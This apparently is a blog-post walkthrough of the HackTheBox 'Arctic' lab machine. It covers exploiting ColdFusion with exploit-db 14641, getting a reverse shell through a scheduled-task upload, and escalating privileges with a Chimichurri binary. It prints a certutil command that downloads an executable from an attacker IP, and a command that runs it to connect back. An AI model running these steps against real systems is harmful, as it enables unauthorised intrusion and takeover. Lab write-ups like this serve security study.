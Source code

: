 ```yaml
---
layout: post
title:  "HackTheBox :: Arctic"
date:   2020-1-2 00:10:00 +0000
categories: hackthebox
---
```


Arctic was an easy one that i wont forget due to how certain exploits are used.

# Recon
Port scanning shows port 5800 is open serving coldfusion
Some directory bruteforcing returns CFIDE which will be our admin endpoint.

# Pwning the webapp

Searching exploit-db, we find a suitable exploit that may assist in getting into the coldfusion admin panel. Exploit 14641 does some amazing things, it will retrieve the password hash of the admin/user of the panel and inject it into the html of the login form!
From this we get the password of 'happyday'. From there, gaining a reverse shell through coldfusion is fairly stock standard. Setup a scheduled task with an upload and output file with a web directory then upload a shell. Run the task and navigate to the saved directory with a listener to gain a shell as arctic\tolis

# Gaining root

Running 'systeminfo' on the box shows us theres no hotfixes installed and its not a brand new os. This particular box shows signs of being vulnerable to <???>. Download the Chimchurri exploit from github. Use a method of file transfer on windows like the following to recieve the file.
```
<run webserver to host file>
certutil -urlcache -split -f http://10.10.14.4/chimchurri.exe churr.exe
<execute exploit when new listener is running>
churr.exe 10.10.14.4 443
```
Thats it ! quick and easy root for arctic. 14641 is still one of the simplest and most effective exploits ive seen.
